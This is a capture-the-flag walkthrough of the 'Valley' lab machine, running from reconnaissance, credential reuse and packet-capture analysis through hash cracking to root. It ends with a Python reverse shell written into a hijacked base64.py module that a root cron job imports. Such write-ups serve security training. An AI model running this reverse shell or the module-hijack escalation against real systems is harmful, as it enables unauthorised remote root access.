





# Valley

First, we conduct an Nmap scan:

```
nmap -Pn -sS -sV -p- 10.114.160.203
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -Pn -sS -sV -p- 10.114.160.203
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org) ) at 2026-05-27 07:17 EDT
Nmap scan report for 10.114.160.203
Host is up (0.033s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
37370/tcp open  ftp     vsftpd 3.0.3
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 24.12 seconds
```

Next, we head to the webpage. When we navigate to "View gallery" and click on one of the images, we can see that they are served in the following way:



We can build a custom wordlist to check if we can find anything interesting:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ seq -w 00 99 > nums.txt
                                                                                                                                                                             
┌──(kali㉿kali)-[~/Desktop]
└─$ cat nums.txt
00
01
02
03
...
97
98
99
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ ffuf -c -w nums.txt -u [http://10.114.160.203/static/FUZZ](http://10.114.160.203/static/FUZZ)

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : [http://10.114.160.203/static/FUZZ](http://10.114.160.203/static/FUZZ)
 :: Wordlist         : FUZZ: /home/kali/Desktop/nums.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

00                      [Status: 200, Size: 127, Words: 15, Lines: 6, Duration: 23ms]
11                      [Status: 200, Size: 627909, Words: 2055, Lines: 2130, Duration: 35ms]
12                      [Status: 200, Size: 2203486, Words: 8505, Lines: 9816, Duration: 28ms]
14                      [Status: 200, Size: 3838999, Words: 13327, Lines: 16033, Duration: 24ms]
18                      [Status: 200, Size: 2036137, Words: 7704, Lines: 8326, Duration: 33ms]
13                      [Status: 200, Size: 3673497, Words: 13878, Lines: 16580, Duration: 31ms]
17                      [Status: 200, Size: 3551807, Words: 12976, Lines: 13072, Duration: 23ms]
15                      [Status: 200, Size: 3477315, Words: 13107, Lines: 14243, Duration: 36ms]
16                      [Status: 200, Size: 2468462, Words: 9883, Lines: 9004, Duration: 36ms]
10                      [Status: 200, Size: 2275927, Words: 8654, Lines: 8780, Duration: 120ms]
:: Progress: [100/100] :: Job [1/1] :: 23 req/sec :: Duration: :: Errors: 0 ::
```

We can see that `00` returns a valid response. Once we navigate to `http://10.114.160.203/static/00`, we are presented with the following text:

```
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts
```

Next, we can check the `/dev1243224123123` subdirectory. Once we head there, we encounter a login panel. When we examine the source code of this page, we notice a JavaScript file referenced under the name `dev.js`. We can inspect `/dev1243224123123/dev.js`. Upon opening it, we find a username and password hardcoded in the script.





After logging into the panel using the discovered credentials, we are presented with the following text:

```
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
```

It seems that we can reuse these credentials to log into the FTP server:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ ftp 10.114.167.128 37370                                
Connected to 10.114.167.128.
220 (vsFTPd 3.0.3)
Name (10.114.167.128:kali): siemDev
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

After listing the contents, we find some `.pcapng` files. We download them from the server:

```
ftp> ls -a
229 Entering Extended Passive Mode (|||26144|)
150 Here comes the directory listing.
dr-xr-xr-x    2 1001     1001         4096 Mar 06  2023 .
dr-xr-xr-x    2 1001     1001         4096 Mar 06  2023 ..
-rw-rw-r--    1 1000     1000         7272 Mar 06  2023 siemFTP.pcapng
-rw-rw-r--    1 1000     1000      1978716 Mar 06  2023 siemHTTP1.pcapng
-rw-rw-r--    1 1000     1000      1972448 Mar 06  2023 siemHTTP2.pcapng
226 Directory send OK.
ftp> pwd
Remote directory: /
ftp> mget *
mget siemFTP.pcapng [anpqy?]? y
229 Entering Extended Passive Mode (|||57098|)
150 Opening BINARY mode data connection for siemFTP.pcapng (7272 bytes).
100% |***********************************************************************|  7272        85.26 KiB/s    00:00 ETA
226 Transfer complete.
7272 bytes received in 00:00 (66.05 KiB/s)
mget siemHTTP1.pcapng [anpqy?]? y
229 Entering Extended Passive Mode (|||54086|)
150 Opening BINARY mode data connection for siemHTTP1.pcapng (1978716 bytes).
100% |***********************************************************************|  1932 KiB    2.91 MiB/s    00:00 ETA
226 Transfer complete.
1978716 bytes received in 00:00 (2.80 MiB/s)
mget siemHTTP2.pcapng [anpqy?]? y
229 Entering Extended Passive Mode (|||31112|)
150 Opening BINARY mode data connection for siemHTTP2.pcapng (1972448 bytes).
100% |***********************************************************************|  1926 KiB    3.36 MiB/s    00:00 ETA
226 Transfer complete.
1972448 bytes received in 00:00 (3.20 MiB/s)
ftp> 
```

Next, we can try opening `siemHTTP2.pcapng` in Wireshark and filtering for HTTP traffic. We find a single POST request. Once we examine the request, we can see that the HTML form URL-encoded data actually contains a username and a password. We record them and attempt to log into the server over SSH:



```
┌──(kali㉿kali)-[~/Desktop/bandit/repo]
└─$ ssh valleyDev@10.113.134.62
The authenticity of host '10.113.134.62 (10.113.134.62)' can't be established.
ED25519 key fingerprint is SHA256:cssZyBk7QBpWU8cMEAJTKWPfN5T2yIZbqgKbnrNEols.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.113.134.62' (ED25519) to the list of known hosts.
valleyDev@10.113.134.62's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  [https://help.ubuntu.com](https://help.ubuntu.com)
 * Management:     [https://landscape.canonical.com](https://landscape.canonical.com)
 * Support:        [https://ubuntu.com/advantage](https://ubuntu.com/advantage)

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     [https://ubuntu.com/pro](https://ubuntu.com/pro)
valleyDev@valley:~$ 
valleyDev@valley:~$ 
valleyDev@valley:~$ whoami
valleyDev
valleyDev@valley:~$ hostname
valley
valleyDev@valley:~$ 
```

We successfully authenticated, so now we can read the user flag:

```
valleyDev@valley:~$ ls
user.txt
valleyDev@valley:~$ cat user.txt
THM{k@l1_1n_th3_v@lley}
valleyDev@valley:~$ 
```

When we switch to the `/home` directory, we notice an unusual `valleyAuthenticator` binary that prompts us to enter credentials:

```
valleyDev@valley:/home$ ls
siemDev  valley  valleyAuthenticator  valleyDev
valleyDev@valley:/home$ file valley
valley/              valleyAuthenticator  valleyDev/           
valleyDev@valley:/home$ file valleyAuthenticator 
valleyAuthenticator: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, no section header
valleyDev@valley:/home$ ./valleyAuthenticator 
Welcome to Valley Inc. Authenticator
What is your username: valleyDev
What is your password: ph0t0s1234
Wrong Password or Username
valleyDev@valley:/home$ 
```

We can transfer the binary to our host machine and examine it using the `strings` tool:

```
valleyDev@valley:/home$ python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 ([http://0.0.0.0:4444/](http://0.0.0.0:4444/)) ...
192.168.204.155 - - [30/May/2026 05:16:41] "GET /valleyAuthenticator HTTP/1.1" 200 -
```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ wget [http://10.112.153.18:4444/valleyAuthenticator](http://10.112.153.18:4444/valleyAuthenticator)                                      
--2026-05-30 08:16:41--  [http://10.112.153.18:4444/valleyAuthenticator](http://10.112.153.18:4444/valleyAuthenticator)
Connecting to 10.112.153.18:4444... connected.
HTTP request sent, awaiting response... 200 OK
Length: 749128 (732K) [application/octet-stream]
Saving to: ‘valleyAuthenticator’

valleyAuthenticator          100%[==============================================>] 731.57K  3.53MB/s    in 0.2s    

2026-05-30 08:16:41 (3.53 MB/s) - ‘valleyAuthenticator’ saved [749128/749128]
```

When we examine the binary with `strings`, we can see that it is packed:

```
$Info: This file is packed with the UPX executable packer [http://upx.sf.net](http://upx.sf.net) $
$Id: UPX 3.96 Copyright (C) 1996-2020 the UPX Team. All Rights Reserved. $
```

Since UPX is a tool for compressing executables, we can try to decompress the file:

```
$ upx -d valleyAuthenticator
```

Once the file is decompressed, we can search for interesting strings in the binary itself, such as "password":



We have found two entries that look like hashes. We check if our assumptions are correct:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ hashid --john e6722920bab2326f8217e4bf6b1b58ac        
Analyzing 'e6722920bab2326f8217e4bf6b1b58ac'
[+] MD2 [JtR Format: md2]
[+] MD5 [JtR Format: raw-md5]
[+] MD4 [JtR Format: raw-md4]
[+] Double MD5 
[+] LM [JtR Format: lm]
[+] RIPEMD-128 [JtR Format: ripemd-128]
[+] Haval-128 [JtR Format: haval-128-4]
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 [JtR Format: lotus5]
[+] Skype 
[+] Snefru-128 [JtR Format: snefru-128]
[+] NTLM [JtR Format: nt]
[+] Domain Cached Credentials [JtR Format: mscach]
[+] Domain Cached Credentials 2 [JtR Format: mscach2]
[+] DNSSEC(NSEC3) 
[+] RAdmin v2.x [JtR Format: radmin]
                                                                                                                                                                             
┌──(kali㉿kali)-[~/Desktop]
└─$ hashid --john dd2921cc76ee3abfd2beb60709056cfb
Analyzing 'dd2921cc76ee3abfd2beb60709056cfb'
[+] MD2 [JtR Format: md2]
[+] MD5 [JtR Format: raw-md5]
[+] MD4 [JtR Format: raw-md4]
[+] Double MD5 
[+] LM [JtR Format: lm]
[+] RIPEMD-128 [JtR Format: ripemd-128]
[+] Haval-128 [JtR Format: haval-128-4]
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 [JtR Format: lotus5]
[+] Skype 
[+] Snefru-128 [JtR Format: snefru-128]
[+] NTLM [JtR Format: nt]
[+] Domain Cached Credentials [JtR Format: mscach]
[+] Domain Cached Credentials 2 [JtR Format: mscach2]
[+] DNSSEC(NSEC3) 
[+] RAdmin v2.x [JtR Format: radmin]
```

It appears that these are probably MD5 hashes. We can attempt to crack them using John the Ripper:

```
┌──(kali㉿kali)-[~]
└─$ john --format=raw-md5 --wordlist=rockyou.txt hashes.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
valley           (?)     
liberty123       (?)     
2g 0:00:00:00 DONE (2026-05-30 08:32) 100.0g/s 10886Kp/s 10886Kc/s 11232KC/s llorar..liberty12
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```

We can try to log into the server as the `valley` user using one of these cracked passwords:

```
┌──(kali㉿kali)-[~/Desktop/bandit/repo]
└─$ ssh valley@10.112.153.18 
valley@10.112.153.18's password: 
Permission denied, please try again.
valley@10.112.153.18's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  [https://help.ubuntu.com](https://help.ubuntu.com)
 * Management:     [https://landscape.canonical.com](https://landscape.canonical.com)
 * Support:        [https://ubuntu.com/advantage](https://ubuntu.com/advantage)

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     [https://ubuntu.com/pro](https://ubuntu.com/pro)
Failed to connect to [https://changelogs.ubuntu.com/meta-release-lts](https://changelogs.ubuntu.com/meta-release-lts). Check your Internet connection or proxy settings

valley@valley:~$ whoami
valley
valley@valley:~$ hostname
valley
valley@valley:~$ 
```

Executing the `id` command tells us that we are a member of the `valleyAdmin` group. We can check if we have any interesting write permissions associated with that group on files across the system:

```
valley@valley:/home$ id
uid=1000(valley) gid=1000(valley) groups=1000(valley),1003(valleyAdmin)
```

```
valley@valley:/home$ find / -group valleyAdmin -writable 2>/dev/null
/usr/lib/python3.8
/usr/lib/python3.8/base64.py
```

We discover that we have write permissions on the `base64` Python module. After some deeper checking, we also find that there is a cron job script running every hour with root privileges that imports `base64` module:

```
valley@valley:/home$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# * * * * * user-name command to be executed
17 * * * * root    cd / && run-parts --report /etc/cron.hourly
25 6    * * * root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * * root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
1  * * * * root    python3 /photos/script/photosEncrypt.py
```

```
valley@valley:/home$ cat /photos/script/photosEncrypt.py 
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
        image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
        with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
        encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
        output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
        with open(output_path, "wb") as output_file:
          output_file.write(encoded_image_data)
```

We can hijack this by overwriting the `base64.py` file with our own Python reverse shell code:

```
valley@valley:/home$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.204.155",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' > /usr/lib/python3.8/base64.py
```

We start a listener on the specified port, and after a short while, the cron job executes and returns a root shell:

```
┌──(kali㉿kali)-[~]
└─$ rlwrap nc -nvlp 5555
listening on [any] 5555 ...
connect to [192.168.204.155] from (UNKNOWN) [10.112.153.18] 40468
# whoami
whoami
root
# hostname
hostname
valley
# 
```

Now we can read the root flag:

```
# pwd
pwd
/root
# ls
ls
root.txt  snap
# cat root.txt
cat root.txt
THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}
# 
```